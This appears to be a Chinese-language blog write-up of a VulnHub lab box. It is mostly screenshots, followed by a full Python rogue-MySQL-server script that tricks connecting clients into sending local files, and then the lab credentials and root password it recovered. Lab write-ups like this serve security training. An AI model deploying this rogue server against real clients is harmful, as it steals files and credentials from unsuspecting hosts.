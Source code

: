 +++
ShowToc = true
TocOpen = true
title = '0x067 readme'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCE105e556d62df904228189b4475e208aeimage.png)

![](/vulnhub_img/WEBRESOURCEc464496b093cbef56ffdb913ef6a8bc3image.png)

![](/vulnhub_img/WEBRESOURCE4b9470766de50513b0d3745a11c3a4ddimage.png)

# 渗透

![](/vulnhub_img/WEBRESOURCEde8183202983a156ccc4f87730660b7aimage.png)

![](/vulnhub_img/WEBRESOURCEe7801f6d0dc2dcb2cdb8be32e8b89bb2image.png)

![](/vulnhub_img/WEBRESOURCE0ce94fd56d492a62392b93fcf3dab2d8image.png)

![](/vulnhub_img/WEBRESOURCE457f2266402615a06cc4fb01c8ec7e6aimage.png)

这里右键图片，可以发现目录：

![](/vulnhub_img/WEBRESOURCE87fff234d0dec2589a519b542f8246c6image.png)

![](/vulnhub_img/WEBRESOURCE777d642af0cb44f81143290792690ad5image.png)

![](/vulnhub_img/WEBRESOURCE619cf45715c94b62e287f46475a1c228image.png)

我感觉是在提示我们使用文件读取，但是该怎么进行文件读取呢：

SSRF是有本地文件读取的可能性的：

![](/vulnhub_img/WEBRESOURCEcd6af48624611705a08094423f4f067bimage.png)

[https://xz.aliyun.com/t/11225#toc-5](https://xz.aliyun.com/t/11225#toc-5)

用的这个脚本：

```
# -*- coding: utf-8 -*-
import socket
import os
import sys

#--------------------------------------------------------------------------------------------------------------------
port = int(sys.argv[1])
#--------------------------------------------------------------------------------------------------------------------

def mysql_get_file_content(sv, filename):
    conn, address = sv.accept()
    logpath = os.path.abspath('.') + "/log/" + address[0]
    if not os.path.exists(logpath):
        os.makedirs(logpath)
    # Conn from address)
    conn.sendall(
        "\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
    conn.recv(9999)
    # auth okay
    conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
    conn.recv(9999)
    # want file...
    wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
    conn.sendall(wantfile)
    content = conn.recv(9999)
    conn.close()

    if len(content) > 4:
        with open(logpath + "/" + filename.replace("/", "_").replace(":", "_"), "w") as txt:
            txt.write(content)
        return True
    else:
        return False



# 开始监听
sv = socket.socket()
sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sv.bind(("", port))
sv.listen(5)
print "Listen Begin in port "+str(port)

# 日志文件夹




# 循环监听
while True:
    filename = raw_input("请输入接下来你想读的文件名 (直接按回车退出): ")
    if filename == "":
        break
    res = mysql_get_file_content(sv, filename)
    if res:
        print "Read Success! ---> "+filename
    else:
        print "Not Found~ ---> "+filename
```

![](/vulnhub_img/WEBRESOURCEfea96fe14cdbce21b2b238751779ddbbimage.png)

![](/vulnhub_img/WEBRESOURCE634ea01e5bc19e5e1e193b40c4c8e121image.png)

在当前目录会生成一个文件：

VU: julian

P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh

![](/vulnhub_img/WEBRESOURCE654438541a35043e400f28215b28fe99image.png)

这就是账号密码：

![](/vulnhub_img/WEBRESOURCEc83575ead2b7abfdca457aa1dbaf6b1dimage.png)

# 提权

这里有两个文件，明显是不属于这里的：

![](/vulnhub_img/WEBRESOURCE1d9abfd922dc9fa444decdbb88225f37image.png)

然后这里要逆向，把这串二进制字符串逆向出来，代码要求能力挺高的，暂且解决不了，密码如下：

So...YouFiguredOutHowToRecoverThisHuh?GGWPnoRE

![](/vulnhub_img/WEBRESOURCE688bbb58ef0d256b857c69d8f6cd6bbdimage.png)